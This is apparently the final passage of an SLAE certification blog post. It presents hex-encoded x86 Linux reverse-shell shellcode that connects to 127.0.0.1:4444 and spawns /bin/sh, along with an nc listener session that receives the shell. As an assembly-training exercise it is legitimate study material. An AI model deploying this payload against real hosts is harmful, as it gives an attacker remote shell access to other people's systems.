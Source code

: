 ```sh
 \x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x31\xf6\x56\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc2\xb0\x66\xb3\x03\x56\xb9\x84\x05\x05\x06\x81\xe9\x05\x05\x05\x05\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x89\xe1\xcd\x80\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xf6\x56\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80 
 ------------------------------ 

Would i try to execute a shellcode? [Y/N]  y
Shellcode Length:  102

```
Second terminal:
```sh
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 43262
uname -a
Linux kali 5.4.0-kali4-amd64 #1 SMP Debian 5.4.19-1kali1 (2020-02-17) x86_64 GNU/Linux
```

### Pwned.

-----------------------------------------------------------------------------
-----------------------------------------------------------------------------

<p style="text-align: justify;">This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: https://www.pentesteracademy.com/course?id=3</p>

Student ID: SLAE-1524

-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
